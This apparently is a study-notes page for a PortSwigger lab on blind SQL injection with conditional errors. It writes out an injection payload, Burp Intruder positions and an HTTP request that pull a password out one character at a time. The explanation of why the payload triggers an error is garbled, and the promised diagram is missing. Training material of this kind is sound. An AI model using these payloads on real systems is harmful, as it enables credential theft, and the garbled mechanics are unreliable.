

## Understanding the Attack Scenario

In the given scenario, the attacker is trying to extract the password character by character using conditional errors. The attacker knows that the password is 20 characters long and will use this information to craft the attack.

### Step-by-Step Mechanics

1. **Identify the Vulnerable Parameter**: The attacker identifies a parameter in the application that is vulnerable to SQLi.
2. **Craft the SQL Query**: The attacker crafts a SQL query that will cause an error if a certain condition is met.
3. **Automate the Attack**: The attacker uses tools like Burp Suite Intruder to automate the process of sending multiple requests with different payloads.

### Example Scenario

Consider a login form where the username and password are submitted via a POST request. The backend SQL query looks something like this:

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

If the `$password` parameter is vulnerable to SQLi, the attacker can inject a payload that causes an error based on the value of the password.

### Crafting the Payload

The attacker will inject a payload that checks if the first character of the password is a specific value. For example, to check if the first character is 'A', the payload might look like this:

```sql
' OR SUBSTRING(password, 1, 1) = 'A' -- 
```

This payload will cause an error if the first character of the password is not 'A'. The attacker can then iterate through all possible characters until they find the correct one.

### Automating the Attack with Burp Suite Intruder

Burp Suite Intruder is a powerful tool for automating SQLi attacks. Here’s how the attacker can set up the attack:

1. **Capture the Request**: Capture the request to the vulnerable endpoint using Burp Suite.
2. **Set Up Intruder**: Send the captured request to Intruder.
3. **Define Positions**: Define the positions where the payloads will be injected.
4. **Add Payloads**: Add the payloads for the first character and the subsequent characters.

#### Setting Up Positions

In the given scenario, the attacker sets up two positions:

1. **First Position**: Iterates through numbers from 1 to 20.
2. **Second Position**: Iterates through alphanumeric characters.

Here’s how the setup might look in Burp Suite Intruder:

```plaintext
POST /login HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded

username=admin&password=' OR SUBSTRING(password, {{position1}}, 1) = '{{position2}}' --
```

#### Adding Payloads

For the first position, the attacker adds a payload list with numbers from 1 to 20:

```plaintext
1
2
3
...
20
```

For the second position, the attacker adds a payload list with all alphanumeric characters:

```plaintext
A
B
C
...
z
0
1
2
...
9
```

### Full HTTP Request and Response

Here’s an example of the full HTTP request and response:

#### Request

```http
POST /login HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

username=admin&password=' OR SUBSTRING(password, 1, 1) = 'A' --
```

#### Response

```http
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

<!DOCTYPE html>
<html>
<head>
    <title>Internal Server Error</title>
</head>
<body>
    <h1>500 Internal Server Error</h1>
    <p>The server encountered an unexpected condition that prevented it from fulfilling the request.</p>
</body>
</html>
```

### Automating the Process

The attacker can automate the process using Burp Suite Intruder to send all possible combinations of payloads. This will generate a large number of requests, which can be processed quickly using the professional version of Burp Suite.

### Mermaid Diagram

Here’s a mermaid diagram illustrating the attack flow:



---
<!-- nav -->
[[04-Types of SQL Injection|Types of SQL Injection]] | [[Web Security (PortSwigger)/02-SQL Injection/13-Lab 12 Blind SQL injection with conditional errors/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/13-Lab 12 Blind SQL injection with conditional errors/06-Practice Questions & Answers|Practice Questions & Answers]]
